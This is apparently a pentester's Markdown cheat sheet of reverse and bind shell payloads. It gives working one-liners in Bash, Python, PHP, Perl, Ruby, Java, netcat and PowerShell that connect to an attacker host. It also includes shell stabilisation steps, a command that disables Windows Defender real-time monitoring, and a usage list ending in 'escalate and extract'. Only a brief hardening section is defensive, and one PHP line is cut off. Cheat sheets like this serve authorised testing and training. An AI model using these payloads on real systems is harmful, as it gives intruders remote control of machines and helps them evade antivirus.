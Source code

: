 # Reverse Shells

- [Reverse Shell Generator](https://www.revshells.com/)

## Listener Setup & Shell Stabilisation

### Start Listener
```bash
nc -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo;fg
export TERM=xterm

# If needed
stty rows $(tput lines) columns $(tput cols)
clear
```

---

## Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

```bash
# Target Server
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect from box
ncat 10.0.0.1 4242 -e /bin/bash

```

## Bash Reverse Shell

```bash
# Target
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

---

## Python Reverse Shell
```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

---

## PHP Reverse Shell
```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
    
 <?php $sock = fsockopen("KALI_IP", 4444); proc_open('/bin/bash -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes>
```

---

## Perl Reverse Shell
```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

---

## Ruby Reverse Shell
```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## Java Reverse Shell
```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

---

## Netcat Reverse Shell
```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

---

## PowerShell Reverse Shell (Windows)
```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

## Simple Reverse Shell in Windows

Bind to common port 443 to avoid firewall restrictions

```bash
# Server setup
sudo nc -lvnp 443
```

```powershell
# Payload on target, RCE cmd.exe
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.178',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Dissable A/V if needed as admin
Set-MpPreference -DisableRealtimeMonitoring $true

```

---

## Hardening / Detection Notes
- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

---

**Usage**:
1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.